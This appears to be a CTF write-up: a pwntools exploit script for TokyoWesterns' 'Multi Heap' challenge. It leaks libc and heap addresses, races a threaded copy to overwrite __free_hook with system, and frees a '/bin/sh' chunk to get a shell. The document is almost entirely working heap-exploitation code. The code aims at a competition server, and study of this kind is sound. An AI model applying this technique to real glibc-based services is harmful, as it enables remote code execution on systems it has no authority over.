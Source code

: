 ```python=

```
### Multi Heap

```python
from pwn import *

#r = process("./multi_heap")
r = remote("multiheap.chal.ctf.westerns.tokyo", 10001)
def alloc(Type,size,thread):
    r.sendlineafter(":","1")
    r.sendlineafter(":",Type)
    r.sendlineafter(":",str(size))
    r.sendlineafter(":",thread)

def free(idx):
    r.sendlineafter(":","2")
    r.sendlineafter(":",str(idx))

def show(idx):
    r.sendlineafter(":","3")
    r.sendlineafter(":",str(idx))

def edit(idx,size,content):
    r.sendlineafter(":","4")
    r.sendlineafter(":",str(idx))
    r.sendlineafter(":",str(size))
    r.sendafter(":",content)

def copy(src,dst,size,thread):
    r.sendlineafter(":","5")
    r.sendlineafter(":",str(src))
    r.sendlineafter(":",str(dst))
    r.sendlineafter(":",str(size))
    r.sendlineafter(":",thread)

alloc("long",0x500,"m")
alloc("long",0x50,"m")
free(0)
alloc("long",0x30,"m")
show(1)
libc = int(r.recvline()) - 0x3ec0d0
r.recvline()
heap = int(r.recvline()) - 0x11e90

print hex(libc)
print hex(heap)

alloc("char",0x50,"m") #2
alloc("char",0x50,"m") #3
edit(2,0x30,p64(libc+0x3ed8e8)*6)
copy(2,3,0x50,"y2\n3\n")
r.recvuntil("Done")
alloc("char",0x50,"m") #4
alloc("char",0x50,"m") #5

edit(4,0x8,p64(libc+0x4f440))
edit(3,0x8,"/bin/sh\x00")
free(3)
r.interactive()

```
